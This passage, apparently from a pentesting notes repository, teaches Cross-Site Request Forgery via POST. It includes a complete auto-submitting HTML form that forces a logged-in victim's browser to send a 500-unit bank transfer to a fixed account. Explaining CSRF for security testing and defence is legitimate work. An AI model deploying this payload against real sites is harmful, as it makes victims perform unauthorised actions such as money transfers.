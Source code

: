 # Cross-Site Request Forgery (CSRF)
Cross-Site Request Forgery (CSRF) is an attack that ***forces authenticated users to submit a request to a Web application against which they are currently authenticated***. <br />
CSRF attacks exploit the trust a Web application has in an authenticated user.
We can deliver a CSRF attack via GET or POST method depending on the case.

## Basic CSRF via POST method.
### Basic CSRF via POST method EXPLANATION:
We can perform a CSRF via POST method. We have to do the action we want to exploit in our own account ant capture the POST. Once we have it we have to make an html form to deliver it. 
We can use an authomated resources as [CSRF PoC-Generator](https://hacktify.in/hacktify-csrf-poc-generator/), or the following script modifiying it to our own situation:
```html
<html>
<body>
<form action="https://xymbank.com/online/transfer" method="POST">
<input type="hidden" name="amount" value="500"/>
<input type="hidden" name="account" value="654585" />
</form>
<script>
document.forms[0].submit();
</script>
</body>
</html>
```

### Basic CSRF via POST method EXPLOITATION:
- First we obtain the POST method:<br />
<img src="https://github.com/alejandro-pentest/Hacking-Web/assets/161533623/54d619ca-980e-43c2-aa79-b6cd7fd7047c" width="600"><br />
- Finally we create the CSRF PoC so we can deliver it to our victim:
<img src="https://github.com/alejandro-pentest/Hacking-Web/assets/161533623/41cfc524-504d-4f8c-8130-fc019b00d52e" width="700"><br />







In the next example we are going to tr

